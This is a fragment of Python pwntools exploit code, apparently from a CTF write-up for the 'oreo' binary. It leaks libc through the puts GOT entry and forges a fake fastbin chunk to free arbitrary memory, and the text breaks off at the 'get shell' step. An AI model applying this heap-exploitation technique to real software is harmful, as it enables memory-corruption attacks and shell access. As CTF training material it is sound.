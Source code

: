 ```python
    p.sendline('1')
    #p.recvuntil('Rifle name: ')
    p.sendline(name)
    #p.recvuntil('Rifle description: ')
    #sleep(0.5)
    p.sendline(descrip)


def show_rifle():
    p.sendline('2')
    p.recvuntil('===================================\n')


def order():
    p.sendline('3')


def message(notice):
    p.sendline('4')
    #p.recvuntil("Enter any notice you'd like to submit with your order: ")
    p.sendline(notice)


def exp():
    print 'step 1. leak libc base'
    name = 27 * 'a' + p32(oreo.got['puts'])
    add(25 * 'a', name)
    show_rifle()
    p.recvuntil('===================================\n')
    p.recvuntil('Description: ')
    puts_addr = u32(p.recvuntil('\n', drop=True)[:4])
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    system_addr = libc_base + libc.symbols['system']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))

    print 'step 2. free fake chunk at 0x0804A2A8'

    # now, oifle_cnt=1, we need set it = 0x40
    oifle = 1
    while oifle < 0x3f:
        # set next link=NULL
        add(25 * 'a', 'a' * 27 + p32(0))
        oifle += 1
    payload = 'a' * 27 + p32(0x0804a2a8)
    # set next link=0x0804A2A8, try to free a fake chunk
    add(25 * 'a', payload)
    # before free, we need to bypass some check
    # fake chunk's size is 0x40
    # 0x20 *'a' for padding the last fake chunk
    # 0x40 for fake chunk's next chunk's prev_size
    # 0x100 for fake chunk's next chunk's size
    # set fake iofle' next to be NULL
    payload = 0x20 * '\x00' + p32(0x40) + p32(0x100)
    payload = payload.ljust(52, 'b')
    payload += p32(0)
    payload = payload.ljust(128, 'c')
    message(payload)
    # fastbin 0x40: 0x0804A2A0->some where heap->NULL
    order()
    p.recvuntil('Okay order submitted!\n')

    print 'step 3. get shell'
```
